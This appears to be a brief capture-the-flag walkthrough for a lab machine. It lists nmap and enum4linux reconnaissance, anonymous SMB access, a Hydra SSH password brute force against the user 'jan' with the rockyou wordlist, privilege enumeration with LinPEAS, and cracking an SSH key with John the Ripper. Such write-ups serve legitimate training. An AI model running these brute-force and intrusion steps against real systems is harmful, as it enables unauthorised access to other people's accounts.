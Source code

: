 
# TOOLS INTERACTED WITH
- NMAP
- GOBUSTER
- DIRBUSTER
- ENUM4LINUX
- HYDRA
- LINENUM 
- JOHNHTERIPPER


# ROUTE 2
STEP1   
- RUN NMAP(FOR PORTS)

STEP2  
- RUN NMAP(FOR DIRECTORIES)  
	sudo nmap -p80 --script=http-enum 10.10.228.161

STEP3
- PRESENCE OF SMB SUGGESTS WE RUN ENUM4LINUX  
	enum4linux 10.10.117.18  

STEP4  
- RUN smbclient   
	smbclient //10.10.117.18/Anonymous

STEP 5  
- BRUTEFORCE USING HYDRA  
	hydra -l jan -P /usr/share/wordlists/rockyou.txt  

STEP 6   
- SSH INTO JAN   
	ssh jan@<ip>  
	password = ...

STEP 7  
- ENUMERATE THE USER JAN DIRECTORIES SEARCHING FOR SOMETHING   
  RUN LINPEAS OR LINENUM

STEP 6  
- DOWNLOAD THE KEY INTO YOUR MACHINE  
- DECRYPT THE SSH KEY USING JOHN THE RIPPER  

# THAT'S THE END HOPE YOU LEARNED A NEW TRICK.
